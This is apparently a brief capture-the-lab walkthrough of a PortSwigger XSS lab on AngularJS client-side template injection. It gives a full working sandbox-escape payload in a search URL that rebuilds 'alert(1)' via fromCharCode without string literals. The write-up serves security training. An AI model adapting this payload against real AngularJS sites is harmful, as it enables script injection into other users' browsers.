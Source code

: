 ## Welcome, my friend. Today we will start the [26. XSS lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/8ceef578-27e0-4f75-9773-0b2e569a219a)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/e6be7884-b0b2-41e4-a997-01e2dac5093a)


### Go to ```inspect``` and search for ```hi```


![image](https://github.com/user-attachments/assets/6ea2bcb7-794d-4837-a0a5-4a6785d0c4ca)


### Let's enter ```javascript``` code in Our URL:

```
https://0a80007304668022844981e70017008e.web-security-academy.net/?search=hi&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

![image](https://github.com/user-attachments/assets/09e3a324-8b5c-4641-8c99-0b59630f0dbc)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/2fec8d8f-22d5-4564-8544-4dab70e3cbe6" >
</p>
